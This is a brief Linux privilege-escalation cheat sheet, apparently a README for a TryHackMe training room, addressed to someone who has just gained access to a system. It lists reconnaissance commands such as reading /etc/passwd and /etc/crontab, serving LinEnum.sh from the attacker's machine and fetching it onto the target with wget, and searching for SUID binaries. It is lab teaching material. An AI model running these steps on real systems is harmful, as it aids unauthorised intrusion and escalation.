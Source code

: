 Hello, friend.

Let's say that you manage to enter into a system. You first reflex is as follow :

Hostname
cat /etc/passwd
cat /etc/crontab

Launch a python server where your LinEnum.sh is located = python3 -m http.server 8000
On the target machine download the file : wget YOURIP:PORT/Linenum.sh

IF Linenum is not available for some reasons, do it yourself :). For example, let's look for some SUIG/SGID : 
find / -perm -u=s -type f 2>/dev/null

Use and abuse of this room : https://tryhackme.com/room/commonlinuxprivesc
